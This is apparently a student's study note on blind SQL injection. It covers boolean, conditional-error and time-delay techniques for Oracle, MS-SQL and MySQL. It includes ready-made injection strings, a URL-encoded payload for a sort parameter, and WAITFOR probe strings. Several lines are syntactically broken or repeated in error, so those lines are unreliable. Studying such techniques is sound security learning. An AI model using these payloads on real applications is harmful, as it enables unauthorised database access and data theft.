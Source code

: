 ## Using inference: conditional Response
- there is many reason why out-of-band channel may be unavailable, most commonly because database is located within a protected network
- eg admin' AND 1=1 -- & admin' AND 1=2 cause different result 
- we make conditional query and extract data from the conditional response
- admin ' AND ASCII(SUBSTRING('ADMIN',1,1))=65 -- 

## Inducing Conditional Errors
- in this if value is true then, it generates error ,or else if condition is false, then never get error
- eg `ORACLE`
```bash
SELECT 1/0 FROM DUAL WHERE (SELECT username from all_users Whrer username='DBSNMP')='DBSNMP'
```
here is condition is true then 1 st query executed and error is caused by the database
- if condition is true then 1st query never executed and never got error
- another for generating conditional error 
```bash
(select 1 where ASCII('admin',1,1)=66 or 1/0 =0)
```
some time it is not possible to use `UNION` query, like after `ORDER BY` we cant use UNION so here we use conditional error
```bash
/search.jsp?depar=20&sort=(select%201/0%20from%20dual%20where%20(select%20substr(max(object_name),1,1)%20from%20user_objects)='y')
```
if 1 st letter of object name is `y` then it cause the data base to execute 1/0 and generate error in the database

## USing Time Delays
   - if all above technique is fails than we use Time delay or craft query that cause `time delays` in the response
### MS-SQL WAITFOR command
`(select User) = 'as' waitfor delay '0:0:5'`
- if ASCII(SUBSTRING('admin',1,1))=64 waitfor delay '0:0:5'
- some time we retrieve data bit by bit using POWER()
- do test on 1st bit`if ASCII(SUBSTRING('Admin',1,1)) & (POWER(2,1)))>0 waitfor delay '0:0:5'`
- this test on 2nd bit `if ASCII(SUBSTRING('Admin',1,1)) & POWER(2,1))>0 waitfor delay '0:0:5'`

### MY-SQL sleep()
- `SELECT if(user) like 'root', sleep(5000), 'false')`

### POSTGRESQL PG_SLEEP()
### Oracle 
- have no function to trigger Time delay
- for this we connect UTL_HTTP to nonexistent sever this cause timeout and time delay in response

**TIP**
- time delay technique can also be immensely useful when performing Initial Probing of application to detect SQLI vuln.
- '; waitfor delay '0:30:0' -- 
- 1; waitfor delay '0:30:0' -- 
